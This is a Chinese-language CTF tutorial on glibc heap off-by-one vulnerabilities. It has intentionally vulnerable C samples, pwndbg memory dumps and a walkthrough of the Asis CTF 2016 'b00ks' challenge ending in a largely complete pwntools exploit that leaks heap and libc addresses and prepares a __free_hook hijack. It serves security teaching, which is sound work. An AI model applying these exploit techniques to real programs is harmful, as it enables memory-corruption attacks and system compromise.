








# Heap-based Off-By-One

off-by-one 指程序向缓冲区中写入时，写入的字节数超过了这个缓冲区本身所申请的字节数并且只越界了一个字节。

## 漏洞原理

off-by-one 是指单字节缓冲区溢出，这种漏洞的产生往往与边界验证不严和字符串操作有关，当然也不排除写入的 size 正好就只多了一个字节的情况。其中边界验证不严通常包括

- 使用循环语句向堆块中写入数据时，循环的次数设置错误导致多写入了一个字节。
- 字符串操作不合适

一般来说，单字节溢出被认为是难以利用的，但是因为 Linux 的堆管理机制 ptmalloc 验证的松散性，基于 Linux 堆的 off-by-one 漏洞利用起来并不复杂，并且威力强大。 此外，off-by-one 是可以基于各种缓冲区的，比如栈、bss 段等等

## off-by-one 利用思路

1. 溢出字节为可控制任意字节：通过修改大小（通过溢出修改到下一个chunk的 prev_size)造成块结构之间出现重叠，从而泄露其他块数据，或是覆盖其他块数据。也可使用 NULL 字节溢出的方法
2. 溢出字节为 NULL 字节:使溢出的NULL字节是的下一个块的 prev_in_use位被清零（覆盖到这一位），这样当前块会被认为是空闲块
   2.1 选择使用unlink方法
   2.2 这时的 prev_size(下一个块) 域就会启用，也就可以伪造 prev_size 使得当前块的大小改变从而造成块与块之间的重叠。此方法的关键在于 unlink 的时候没有检查按照 prev_size 找到的块的后一块（理论上是当前正在 unlink 的块）与当前正在 unlink 的块大小是否相等。

最新版本代码中，已加入针对2中伪造 prev_size的check，但是在2.28前没有改check

```c++
/* consolidate backward */
// 检查当前块的大小是否和 prev_size的值相等
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
      unlink_chunk (av, p);
    }
```

### 例1

```c++
int my_gets(char *ptr,int size)
{
    int i;
    for(i=0;i<=size;i++)
    {
        ptr[i]=getchar();
    }
    return i;
}
int main()
{
    void *chunk1,*chunk2;
    chunk1=malloc(16);
    chunk2=malloc(16);
    puts("Get Input:");
    my_gets(chunk1,16);
    return 0;
}
```

代码中的 my_gets 函数导致了一个 off-by-one 漏洞，原因是 for 循环没有控制好边界导致写入多执行了一次，即栅栏错误

> 栅栏错误（有时也称为电线杆错误或者灯柱错误）是差一错误的一种。如以下问题：
> 建造一条直栅栏（即不围圈），长 30 米、每条栅栏柱间相隔 3 米，需要多少条栅栏柱？
> 最容易想到的答案 10 是错的。这个栅栏有 10 个间隔，11 条栅栏柱.

调试：
输入前分配给用户的两个区域为16字节的堆块：

```s
pwndbg> x/16g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021 <== chunk1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021 <== chunk2
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000411
```

执行函数 my_gets之后，可以发现溢出会覆盖到下一个堆块的 prev_size 域

```s
pwndbg> x/16g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021 <== chunk1
0x602010:   0x4141414141414141  0x4141414141414141
0x602020:   0x0000000000000041  0x0000000000000021 <== chunk2
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000411
```

### 例2

```c++
int main(void)
{
    char buffer[40]="";
    void *chunk1;
    chunk1=malloc(24);
    puts("Get Input");
    gets(buffer);
    if(strlen(buffer)==24)
    {
        strcpy(chunk1,buffer);
    }
    return 0;
}
```

代码中的问题在于字符串操作，原因为字符串的结束符计算有误。

strlen 和 strcpy 的行为不一致导致了 off-by-one 的发生。strlen 计算字符串长度，但是它不会把结束符 '\x00' 计算在内，但是 strcpy 在复制字符串是会将结束符 '\x00' 拷贝，这就导致了向 chunk1 写入了25个字节
调试：

```s
pwndbg> x/16g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021 <== chunk1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000411 <== next chunk
```

通过输入限制长度（24个字符），执行strcpy之后

```s
pwndbg> x/16g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x4141414141414141  0x4141414141414141
0x602020:   0x4141414141414141  0x0000000000000400
```

next chunk 的size域低字节被结束符 '\x00' 所覆盖，这种为 off-by-one 的一个分支（NULL byte off-by-one）。
低字节被覆盖的原因：小端法储存

## 实例 Asis CTF 2016 b00ks

题目是一个图书管理系统，选单式程序



程序每创建一个book会分配0x20字节的结构来维护它的信息

```c++
struct book
{
    int id;
    char *name;
    char *description;
    int size;
}
```

book 结构中存在 name 和 description ， name 和 description 在堆上分配。
首先分配name,使用了malloc，自定要求小于32


随后分配description，同样的大小自定



最后分配book结构的内存


### 漏洞

在 get_input 中存在 null byte off-by-one 漏洞，原因是read函数边界考虑不当

```c++
signed __int64 __fastcall sub_9F5(_BYTE *a1, int a2)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( a2 <= 0 )
    return 0LL;
  buf = a1;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == 10 )
      break;
    ++buf;
    if ( i == a2 )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

可以发现，实际上read读取的字符数为 a2+1(从0开始计数)

### 利用

#### 泄露

通create name的输入32个字符覆写到0x55818f92b060，进而通过后面的打印函数泄露出 library_book数据域的地址

```python
create_auhter_name('A'*30)
create('a',10,'b',10)
debug()
```




为了实现泄露，首先在 author name中输入32个字符，使得结束符'\x00'被覆盖掉，然后创建book1，接着打印出书目的详细信息，泄露地址（堆指针）



```python
create_auhter_name('A'*32)
create('a',0x20, 'b', 0x20)

book1_id, book1_name, book1_des, author=print_book_detail(1)
library_book = u64(author[0][32:32+6].ljust(8,'\x00'))
log.success('library_book = %#x',library_book)
debug()
```

### off-by-one 覆盖指针低字节

程序中提供了 change 功能，即修改author name，所以通过change 可以重新写入author name，利用 off-by-one 覆盖 library_book 的第一个低字节，使其指向 book1的description。

由于程序提供了 edit 功能，可以任意修改 description的内容，所以可以提前在 description 中布置数据伪造成一个book结构，这个book结构的 description和name可以直接控制

```python
def off_by_one(addr):
    addr += offset
    io.recvuntil('>')# create fake book in description
    io.sendline('3')
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
    io.recvuntil('Enter new book description:')
    io.sendline(fake_book_data) # <== fake book


    io.recvuntil('>') # change author name
    io.sendline('5')
    io.recvuntil('Enter author name:')
    io.sendline('a' * 32) # <== off-by-one
```

这里在 description 中伪造了 book ，使用的数据是 p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 。 其中 addr+offset 是为了使指针指向 book2 的指针地址，使得我们可以任意修改这些指针值,这里的offset的值需要是 book1的description指针指向 低字节为 0xf0的位置，这样它的数据域就指向低字节为0x00的位置，方便之后的 off-by-one利用



### 通过栈实现利用

由于程序开启了PIE，所以没有办法通过任意地址读写来泄露libc的地址。

但是这个程序中，在分配第二个book时，使用一共很大的尺寸，使得堆以mmap模式进行拓展。需要知道的是mmap会单独映射一块内存。接着可以根据mmap映射的内存通过固定偏移计算libc的基址



'0x7fdc89c6f000-0x7fdc896e4000=0x58b000'



### exploit

攻击过程：通过create author name填充字段来泄露一个堆指针的地址，然后新建两个book，确保book1的name字段大小为0xe0,使得book1的description字段的首地址低字节为0xf，进而其数据域的地址低字节为0x00,从而在change author name时，覆盖堆指针（book1）的低字节为0x00,使其指向原本的description域，进而在修改book1的description时伪造一个book结构，这个伪造的book结构中，使name和description的数据指向book2的name和description域的地址，接着打印book1的信息来泄露book2（mmap得到的映射段）地址，从而根据固定便宜得到libc地址。

```python
from pwn import *
context.log_level = 'info'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
elf = ELF('./b00ks')

def create(name, name_size, description, des_size):
  p.recvuntil('> ')
  p.sendline('1')
  p.recvuntil('Enter book name size: ')
  p.sendline(str(name_size))
  p.recvuntil("Enter book name (Max 32 chars): ")
  p.sendline(name)
  p.recvuntil("Enter book description size: ")
  p.sendline(str(des_size))
  p.recvuntil("Enter book description: ")
  p.sendline(description)

def delete(id):
  p.recvuntil('> ')
  p.sendline('2')
  p.recvuntil("Enter the book id you want to delete: ")
  p.sendline(str(id))

def edit(id, description):
  p.recvuntil('> ')
  p.sendline('3')
  p.recvuntil("Enter the book id you want to edit: ")
  p.sendline(str(id))
  p.recvuntil("Enter new book description: ")
  p.sendline(description)

def print_book_detail(id):
  p.recvuntil('> ')
  p.sendline('4')
  dicts = {'id':[], 'name':[], 'description':[], 'author':[]}
  for i in range(id):
    try:
      p.recvuntil("ID: ",timeout=1)
      dicts['id'].append(int(p.recvuntil('\n',drop=True)))
      p.recvuntil('Name: ')
      dicts['name'].append(p.recvuntil('\n',drop=True))
      p.recvuntil('Description: ')
      dicts['description'].append(p.recvuntil('\n',drop=True))
      p.recvuntil('Author: ')
      dicts['author'].append(p.recvuntil('\n',drop=True))
    except:
      return dicts['id'],dicts['name'],dicts['description'],dicts['author']
  return dicts['id'],dicts['name'],dicts['description'],dicts['author']
def change_auther_name(name):
  p.recvuntil('> ')
  p.sendline('5')
  p.recvuntil("Enter author name: ")
  p.sendline(name)

def create_auhter_name(name):
  p.recvuntil("Enter author name: ")
  p.sendline(name)

def debug():
  gdb.attach(p)
  pause()

# create_auhter_name('A'*30)
# create('a',10,'b',10)
# debug()
# pwndbg> search "AAAAA"
# b00ks           0x55818f92b040 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
# b00ks           0x55818f92b045 'AAAAAAAAAAAAAAAAAAAAAAAAA'
# b00ks           0x55818f92b04a 'AAAAAAAAAAAAAAAAAAAA'
# b00ks           0x55818f92b04f 'AAAAAAAAAAAAAAA'
# b00ks           0x55818f92b054 'AAAAAAAAAA'
# b00ks           0x55818f92b059 0x6000004141414141 /* 'AAAAA' */
# warning: Unable to access 16000 bytes of target memory at 0x7f801f492d04, halting search.
# pwndbg> x/16g 0x55818f92b040
# 0x55818f92b040: 0x4141414141414141  0x4141414141414141
# 0x55818f92b050: 0x4141414141414141  0x0000414141414141
# 0x55818f92b060: 0x000055818f9bc060  0x0000000000000000

p = process('./b00ks')
# p = remote('node3.buuoj.cn',29670)
create_auhter_name('A'*32)
create('a', 0xd0, 'b', 32)
# here need to calcculate the value(0xd0),need to make name's true size is 0xe0
create('c',0x21000, 'd', 0x21000)

book1_id, book1_name, book1_des, author = print_book_detail(1)
library_book = u64(author[0][32:32+6].ljust(8,'\x00'))
log.success('library_book = %#x',library_book)

fake_book1 = p64(1)+ p64(library_book+0x38) + p64(library_book + 0x40) + pack(0xffff)
# id,name,descripton,len(descritpion)
edit(book1_id[0],fake_book1)
change_auther_name('A'*32)
# cover the library_book's lowest bytes to 0x00,and make it point to book1's descritption, and print our fake book1 to leak libc
# debug()

book2_id, book2_name, book2_des, author = print_book_detail(1)
book2_name = u64(book2_name[0].ljust(8,'\x00'))
book2_des = u64(book2_des[0].ljust(8,'\x00'))
log.success('book2_name = %#x, book2_des = %#x'%(book2_name,book2_des))
# debug()

# 0x7fdc89c6f000-0x7fdc896e4000=0x58b000
libc_base = book2_des - (0x58b000 + 0x10)
free_hook = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']
binsh = libc_base + libc.search("/bin/sh").next()
one_gadget = libc_base + 0x45216
# execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL
log.info('libc_base = %#x, free_hook = %#x, one_gadget = %#x'%(libc_base,free_hook,one_gadget))

# edit(1, p64(free_hook)*2)
# edit(2, p64(one_gadget))
# payload = p64(binsh)+p64(free_hook)

# edit(1,payload)
# debug()
# edit(2,p64(system_addr))

# delete(2)
# p.interactive()
```

## 实例 plaidctf 2015 plaiddb
